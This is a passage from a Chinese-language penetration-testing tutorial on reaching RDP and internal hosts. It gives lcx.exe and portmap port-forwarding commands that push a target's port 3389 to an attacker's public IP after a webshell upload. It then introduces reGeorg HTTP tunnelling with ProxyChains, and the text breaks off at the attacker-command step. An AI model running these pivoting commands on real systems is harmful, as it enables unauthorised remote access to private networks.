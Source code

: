 

## 单内网 -解决方法：端口映射

目标在内网，攻击者在公网。这种情况下，只能访问80 不能访问3389 等其他端口。

<img src="https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403155647113.png" alt="image-20240403155647113" style="zoom:67%;" />

使用工具：lcx.exe端口转发工具

> 1.公网攻击者命令 【攻击者必须有公网IP】

```sh
lcx.exe -listen 2333 3389   #win 
./portmap -m 2 -p1 2333 -p2 3389   #linux 【-m 模式 ，-p1 2333 -p2 3389 将本机的两个端口进行连接，从 2333进入的流量从3389出来，从3389进入的流量也可以从2333出来】
```

> 2.目标服务器命令
>
>   需要先将lcx.exe通过webshell上传到目标服务器

```sh
lcx.exe -slave 【公网服务器IP】 2333 127.0.0.1 3389 # 将本机 127.0.0.1 3389 的流量发送到 【公网服务器IP】 2333
```

> 3.远程桌面链接

```sh
rdesktop 127.0.0.1
remmina
```

缺点 :1.流量是否加密； 2.需要公网服务器； 3.无法访问其他端口；

![image-20240403171336794](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403171336794.png)

---

## 双内网-解决方法：HTTP隧道

目标在内网，攻击者也在内网

<img src="https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403160428435.png" alt="image-20240403160428435" style="zoom:67%;" />

---

使用工具：

reGeorg,reGeorg主要是把内网服务器的端口通过 http/https 隧道转发到本机,形成一个隧道

ProxyChains使任何程序通过代理上网,允许TCP和DNS通过代理隧道,支持HTTP、SOCKS4和SOCKS5类型的代理服务器.

1.隧道出口文件为`tunnel.nosocket.php`,需要将其上传到目标服务器；

---

> 1.攻击者命令
